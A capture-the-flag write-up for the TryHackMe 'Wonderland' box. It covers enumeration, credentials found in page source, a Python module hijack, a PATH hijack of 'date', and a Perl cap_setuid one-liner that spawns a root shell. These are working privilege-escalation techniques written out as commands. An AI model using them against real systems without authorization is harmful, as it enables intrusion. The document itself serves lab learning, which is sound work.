





# Wonderland

---

## Enumeration

Initial scanning with **Nmap** revealed the following open ports:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Inspecting the HTML code of the web page, I noticed a reference to an image path. Navigating to that directory and downloading the images, I found a hidden message using `steghide`:

> `follow the r a b b i t`

Using `ffuf`, I discovered a directory named `r`, and with the previous hint I assumed the full path to be:

```
http://<ip>/r/a/b/b/i/t/
```

Inspecting the source code at that location, I found credentials:



**Credentials:**
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

---

## SSH Access

Using the credentials above, I logged in as `alice` via SSH.

TryHackMe provided a clue about `user.txt` being "upside down", suggesting it was in `/root`. Although I didn't have full permissions, I could still read `user.txt`.


To escalate privileges, I found a Python script that `alice` could execute as user `rabbit` via `sudo`. Though the script wasn't writable, I noticed it imported the `random` module. I exploited this by creating a malicious `random.py`:

```python
import os
os.system("/bin/bash") 
```

> Python imported my malicious module instead of the legitimate one.

### Proof:



---

## Escalating to `hatter`

While operating as `rabbit`, I found another opportunity. A binary named `teaParty` was executable, and `strings` analysis revealed it used the `date` command without specifying an absolute path.

I created a fake `date` script:

```bash
#!/bin/bash
/bin/bash
```

Made it executable:

```
chmod +x date
```

And added it to the `PATH`:

```
export PATH=/home/rabbit:$PATH
```

Executing `teaParty` then spawned a shell as `hatter`.



Inside `/home/hatter`, I found a `.txt` file containing his password.

---

## Privilege Escalation

To gain root, I ran **linpeas**, which revealed this:

```
/usr/bin/perl = cap_setuid+ep
```



This means Perl had the capability to change its UID without being a SUID binary.

I exploited this with:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

This granted me a root shell:



---
